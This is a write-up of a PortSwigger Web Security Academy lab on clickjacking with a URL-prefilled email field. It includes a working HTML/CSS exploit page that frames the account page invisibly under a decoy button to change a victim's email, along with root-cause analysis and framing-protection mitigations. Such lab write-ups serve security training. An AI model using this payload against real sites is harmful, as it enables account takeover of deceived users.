


# Lab 02: Clickjacking with form input data prefilled from a URL parameter

> **Topic**: Clickjacking
> **Lab Number**: 02
> **Platform**: PortSwigger Web Security Academy

## Category
Clickjacking — UI Redressing with Parameterized Prefilling

## Vulnerability Summary
This lab demonstrates how clickjacking can be combined with a common application feature: pre-filling form fields via URL parameters. The application lacks frame protection (like `X-Frame-Options` or CSP `frame-ancestors`), allowing it to be loaded in an `<iframe>`. Because the application also allows the "Email" input field to be populated via a GET parameter in the URL, an attacker can craft a specific link that sets the email to an address they control and then use clickjacking to trick the user into submitting that form.

## Attack Methodology

### Step 1: Identify the Prefill Parameter
I first tested if the application supports pre-filling the email field via the URL. On the "My Account" page, I appended `?email=hacker@attacker-website.com` to the URL:

```
https://0a2300b804d5ad29818465a7016c009e.web-security-academy.net/my-account?email=hacker@attacker-website.com
```

The page rendered with the "Email" field already containing `hacker@attacker-website.com`. This is the core primitive needed for the exploit.


*The target page with the email field pre-filled via a URL parameter and a decoy "Test me" button overlay.*

### Step 2: Craft the Exploit
I used the exploit server to host a malicious HTML page. This page frames the account URL (including the pre-fill parameter) and uses CSS to position a decoy "Test me" button exactly over the hidden "Update email" button.

**Exploit Payload:**
```html
<style>
    iframe {
        position: relative;
        width: 500px;
        height: 700px;
        opacity: 0.0001; /* Invisible to the victim */
        z-index: 2;
    }
    div {
        position: absolute;
        /* Aligned precisely over the 'Update email' button in the framed page */
        top: 520px; 
        left: 80px;
        z-index: 1;
    }
</style>
<div>Test me</div>
<iframe src="https://0a2300b804d5ad29818465a7016c009e.web-security-academy.net/my-account?email=hacker@attacker-website.com"></iframe>
```

### Step 3: Alignment and Verification
During the crafting phase, I set the `opacity` to `0.1` to visually confirm that the "Test me" text was correctly aligned over the "Update email" button. Once confirmed, I reduced the opacity to `0.0001` to make the iframe completely invisible to the victim.


*The exploit server configuration showing the CSS used to position the decoy element and frame the target URL.*

### Step 4: Delivering the Exploit
After storing the exploit, I delivered it to the victim. When the victim clicks the "Test me" button on the attacker's site, the browser actually clicks the "Update email" button inside the hidden iframe. Since the victim is already logged in, the browser automatically includes their session cookies and the valid CSRF token, successfully updating their account email to the attacker's address.

## Technical Root Cause
The vulnerability exists because:
1.  **Lack of Frame Protection**: The server does not send `X-Frame-Options` or `Content-Security-Policy: frame-ancestors`, allowing the page to be displayed in a third-party iframe.
2.  **Insecure Prefilling**: Allowing sensitive form fields to be populated via URL parameters makes it easy for an attacker to prepare the "attack surface" (the pre-filled form) without needing any user interaction other than the final click.

## Impact
- **Account Takeover**: By changing the user's email, an attacker can then initiate a password reset to gain full control of the account.
- **Data Exfiltration**: If other fields are pre-fillable, an attacker could potentially change phone numbers, addresses, or other sensitive profile information.

## Proof of Concept
1. Append `?email=attacker@malicious.com` to the account page URL to verify pre-filling.
2. Frame that URL in an exploit page.
3. Use CSS to overlay a decoy button over the "Update email" button.
4. Entice a logged-in user to click the decoy button.

## Key Takeaways
1. **Defense in Depth**: Even if your forms have CSRF protection, clickjacking can bypass it by using the user's own intent (via deception) to trigger the action.
2. **Restrict Sensitive Prefilling**: Avoid allowing sensitive account actions (like changing email or password) to be prepared via URL parameters. If required, use POST requests or implement additional confirmation steps.
3. **Framing is a Risk**: By default, applications should prevent framing to protect against UI redressing.

## Mitigation
1. **Frame Protection**:
    - **HTTP Header**: `X-Frame-Options: SAMEORIGIN` (prevents framing by other sites).
    - **CSP**: `Content-Security-Policy: frame-ancestors 'self'` (modern and more flexible alternative).
2. **Confirm Sensitive Actions**: Require the user to enter their current password or perform a multi-step confirmation for sensitive changes like updating an email address.
3. **Origin Validation**: Ensure that the application only accepts requests from trusted origins, though this is less effective against clickjacking than frame protection.

## References
- [PortSwigger Clickjacking Lab - Prefilled from a URL parameter](https://portswigger.net/web-security/clickjacking/lab-form-input-data-prefilled-from-url-parameter)
- [W3C Content Security Policy - frame-ancestors](https://www.w3.org/TR/CSP3/#directive-frame-ancestors)

---

*Lab completed on: 2026-05-16*
*Writeup by vibhxr*
